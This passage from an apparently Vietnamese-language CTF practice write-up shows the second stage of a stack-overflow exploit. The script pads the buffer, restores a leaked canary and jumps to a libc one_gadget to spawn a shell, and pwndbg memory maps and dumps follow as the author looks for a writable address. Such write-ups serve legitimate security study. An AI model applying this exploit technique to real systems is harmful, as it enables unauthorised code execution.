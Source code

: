 - **Part 2 of exploit (test)**

    ```bash
    # [2]: Get shell
    one_gadget = libc.address + 0xebc85
    pl = b'\0'*0x28 + p64(canary) + p64(0) +p64(one_gadget)
    sla(b'name: ', pl)
    ```


Vì ở đây các `constraints` của `onegadget` yêu cầu phải có một địa chỉ `writeable`  nên ta không thể set `saved rbp` là `0` được, thay vào đó phải là một vùng nhớ có quyền `write`

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /home/alter/pwn/Practice/og/og
          0x401000           0x402000 r-xp     1000   1000 /home/alter/pwn/Practice/og/og
          0x402000           0x403000 r--p     1000   2000 /home/alter/pwn/Practice/og/og
          0x403000           0x404000 r--p     1000   2000 /home/alter/pwn/Practice/og/og
          0x404000           0x405000 rw-p     1000   3000 /home/alter/pwn/Practice/og/og
<...>
pwndbg> x/50xg 0x404000
0x404000:       0x0000000000403e20      0x00007ffff7ffe2e0
0x404010:       0x00007ffff7fd8d30      0x0000000000401030
0x404020 <setbuf@got.plt>:      0x00007ffff7e0efe0      0x00007ffff7de76f0
0x404030 <fgets@got.plt>:       0x0000000000401060      0x0000000000000000
0x404040:       0x0000000000000000      0x0000000000000000
0x404050:       0x0000000000000000      0x0000000000000000
0x404060 <stdout@GLIBC_2.2.5>:  0x00007ffff7fa2780      0x0000000000000000
0x404070 <stdin@GLIBC_2.2.5>:   0x00007ffff7fa1aa0      0x0000000000000000
0x404080 <stderr@GLIBC_2.2.5>:  0x00007ffff7fa26a0      0x0000000000000000
0x404090:       0x0000000000000000      0x0000000000000000
0x4040a0:       0x0000000000000000      0x0000000000000000
0x4040b0:       0x0000000000000000      0x0000000000000000
0x4040c0:       0x0000000000000000      0x0000000000000000
0x4040d0:       0x0000000000000000      0x0000000000000000
0x4040e0:       0x0000000000000000      0x0000000000000000
<...>
0x404320:       0x0000000000000000      0x0000000000000000
0x404330:       0x0000000000000000      0x0000000000000000
0x404340:       0x0000000000000000      0x0000000000000000
0x404350:       0x0000000000000000      0x0000000000000000
0x404360:       0x0000000000000000      0x0000000000000000
0x404370:       0x0000000000000000      0x0000000000000000
0x404380:       0x0000000000000000      0x0000000000000000
0x404390:       0x0000000000000000      0x0000000000000000
0x4043a0:       0x0000000000000000      0x0000000000000000
0x4043b0:       0x0000000000000000      0x0000000000000000
0x4043c0:       0x0000000000000000      0x0000000000000000
0x4043d0:       0x0000000000000000      0x0000000000000000
0x4043e0:       0x0000000000000000      0x0000000000000000
0x4043f0:       0x0000000000000000      0x0000000000000000
0x404400:       0x0000000000000000      0x0000000000000000
0x404410:       0x0000000000000000      0x0000000000000000
0x404420:       0x0000000000000000      0x0000000000000000
<...>
```
